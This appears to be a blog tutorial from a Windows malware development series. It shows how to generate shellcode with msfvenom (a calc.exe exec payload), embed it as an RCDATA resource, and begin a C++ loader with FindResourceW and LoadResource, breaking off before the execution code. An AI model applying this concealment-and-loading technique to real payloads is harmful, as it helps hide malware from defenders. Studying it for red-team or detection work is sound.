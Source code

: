 ```yaml
---
title: "Windows Malware Development Part 4: Payload Placement Basics - .rsrc"
header:
  teaser: /assets/images/pe.png
  teaser_home_page: true
categories:
  - Malware Dev
classes: wide
tags:
  - Malware
toc: true
toc_label: Contents
---
```

## Objective ##

Hey guys, welcome to the fourth part of Windows Malware Development, in which we will be looking at the final part of the basics of payload placement. In this post, we will be looking at how to place our shellcode in the `.rsrc` section.

## .rsrc Section ##

If you recall from the PE file structure post, the `.rsrc` section contains any resources that our program needs to load in order to function. From a Malware development perspective however, we can use this section our advantage. Our shellcode will now be hidden in the resources section of our program, away from plain sight.

>You will need Visual Studio/Visual studio build tools, x64dbg and Metasploit (comes with a build of Kali Linux) for this exercise.
>
>For this post, I will be using the Visual Studio GUI for the purposes of simplicity, since its easier to create and add a resource using the GUI. However, it is still possible without it.

We will be changing our shellcode in this post to actually execute something, and in the process learn how to use the Metasploit Framework in order to generate shellcode.

## Creating the Shellcode and Resource File ##

### Generating Shellcode using the Metasploit Framework ###

Readers who come from a penetration testing and red teaming background would know that the Metasploit Framework offers many tools that aid with these tasks. One of those tools is `msfvenom`, which is a console tool that can be used to generate different types of payloads and shellcode.

We will be using `msfvenom` in order to generate shellcode that launches `calc.exe` (The Windows Calculator) using `CMD`.

```sh
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/exec CMD=calc.exe > pay.ico 
```

- `-p windows/x64/exec`: This is the payload type. There are many types of payloads, for example, if you want to generate a reverse shell shellcode you will be using a different payload type. In this case, we are using a command execution payload type.
- `CMD= calc.exe`: The command that we wish to execute, which in this case, is `calc.exe`.
- `> pay.ico`: The output file containing our shellcode. You can use any acceptable resource file extension, but in this case we will be using the `.ico` (ICON file) extension.

If we try to view our file, it will appear to be a bunch of binary data, however, we can see the word `calc.exe`:

```
┌──(kali㉿kali)-[~]
└─$ cat '/home/kali/Desktop/pay.ico'       
A�8�u�LLE9�u�XD�@$I�fA�H�P�H▒D�@ I��VH��A�4�H�M1�H1��A��
                       HD�@I�A��H�AXAX^YZAXAYAZH�� AR��XAYZH��W���]H�H��A�1�o��ջ���VA�������H��(<|
���u�GrojYA����calc.exe 
```

### Adding the File as a Resource ###

Now that our shellcode file is ready, let's add it as a resource for our program. 

- Start by creating a blank C++ project in Visual Studio. 
- In the solution explorer pane (right-hand side of the screen), right-click on the Resource Files icon, and select Add > New Item and view all the templates.
- Select Resource from the left pane and add a Resource File (.rc). Leave the name as is.
- You will see a new pane labeled Resource View open in place of the solution explorer. Right-click on the Resource.rc icon and click on Add Resource.
- In the new window, click on Import, and import your `.ico` shellcode file.
- Enter `RCDATA` as the Resource Type and click OK.

![RCDATA](/assets/images/rcdata.png)

- You will now see your resource displayed as binary data.

Navigate back to the solution explorer pane and have a look at the `resource.h` header file. The `#define` statement that you see is your payload's ID in the `.rsrc` section (in this case, `IDR_RCDATA1`), and will be needed later when we're loading it,

```cpp
//{{NO_DEPENDENCIES}}
// Microsoft Visual C++ generated include file.
// Used by Resource.rc
//
#define IDR_RCDATA1                     101

// Next default values for new objects
// 
#ifdef APSTUDIO_INVOKED
#ifndef APSTUDIO_READONLY_SYMBOLS
#define _APS_NEXT_RESOURCE_VALUE        102
#define _APS_NEXT_COMMAND_VALUE         40001
#define _APS_NEXT_CONTROL_VALUE         1001
#define _APS_NEXT_SYMED_VALUE           101
#endif
#endif
```

## Writing the program ##

Start off by adding a C++ file to you project (if not done already). Let's start writing the program. The flow would go as follows:

- Fetch resource location.
- Fetch a handle to the loaded resource.
- Get the address of our shellcode in the `.rsrc` section.
- Get the size of our shellcode.
- Copy to an executable memory buffer.
- Execute it.

### Fetching the location of our resource ###

We will be using the `FindResourceW` API for this operation. Taking a look at the documentation, we can see that it takes three parameters:

```cpp
HRSRC FindResourceW(
  [in, optional] HMODULE hModule,
  [in]           LPCWSTR lpName,
  [in]           LPCWSTR lpType
);
```

- `[in, optional] hModule`: Handle to the module containing the PE file with the resource.
- `[in] lpName`: Resource ID. This parameter can be `MAKEINTRESOURCE(ID)`.
- `[in] lpType`: Resource type.

We are going to fetch the location of our resource using the resource ID that we saw earlier, which will be our second parameter. We will be passing it through the function `MAKEINTRESOURCEW()` in order to pass this ID to the API.

Also, our resource type will be passed as `RT_RCDATA`, as you remember that we had set it while importing the resource file.

```cpp
int main() {
    HRSRC       hRsrc = NULL;
    HGLOBAL     hGlobal = NULL;
    PVOID       pPayloadAddress = NULL;
    SIZE_T      sPayloadSize = NULL;

    // Get the location to the data stored in .rsrc by its id
    hRsrc = FindResourceW(NULL, MAKEINTRESOURCEW(IDR_RCDATA1), RT_RCDATA);
    if (hRsrc == NULL) {
        // in case of function failure
        printf("[!] FindResourceW Failed With Error : %d \n", GetLastError());
        return -1;
    }
```

### Getting a handle to the specified resource data

The next step requires us to get a handle to the specified resource data, which will be required in the next step in order to locate our shellcode. To perform this operation, we will be using the `LoadResource` API.

```cpp
HGLOBAL LoadResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);
```

- `[in, optional] hModule`: A handle to the module whose executable file contains the resource. 
- `[in] hResInfo`: A handle to the resource to be loaded.

This API requires us to pass a handle to the resource, which we acquired from the previous step (`hRsrc`). We are going to store the handle returned in the `hGlobal` variable as follows:

```cpp
hGlobal = LoadResource(NULL, hRsrc);
if (hGlobal == NULL) {
    // in case of function failure
    printf("[!] LoadResource Failed With Error : %d \n", GetLastError());
    return -1;
}
```

